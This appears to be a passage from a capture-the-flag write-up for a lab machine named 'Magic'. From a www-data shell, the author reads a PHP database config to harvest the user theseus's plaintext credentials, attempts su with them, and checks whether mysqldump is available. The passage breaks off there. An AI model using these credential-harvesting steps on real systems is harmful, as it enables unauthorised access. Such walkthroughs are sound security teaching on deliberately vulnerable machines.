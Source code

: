 ```
www-data@ubuntu:/home$ ls
ls
theseus
www-data@ubuntu:/home$ cat theseus/user.txt
cat theseus/user.txt
cat: theseus/user.txt: Permission denied
www-data@ubuntu:/home$ 
```

Viewing /var/www/Magic/db.php5 file, we are able to find a set of credentials belonging to theseus

```
www-data@ubuntu:/var/www/Magic$ cat db.php5
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

Using this set of credentials, we will try to su into theseus user. Unfortunately, this is not the password for theseus user.

```
www-data@ubuntu:/var/www/Magic$ su - theseus
su - theseus
Password: iamkingtheseus

su: Authentication failure
```

We also realize that mysql is not found on this machine. Fortunately, mysqldump is found on this machine. 

```
www-data@ubuntu:/var/www/Magic$ mysql
mysql

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.

www-data@ubuntu:/var/www/Magic$ mysqldump
mysqldump
Usage: mysqldump [OPTIONS] database [tables]
OR     mysqldump [OPTIONS] --databases [OPTIONS] DB1 [DB2 DB3...]
OR     mysqldump [OPTIONS] --all-databases [OPTIONS]
For more options, use mysqldump --help
```
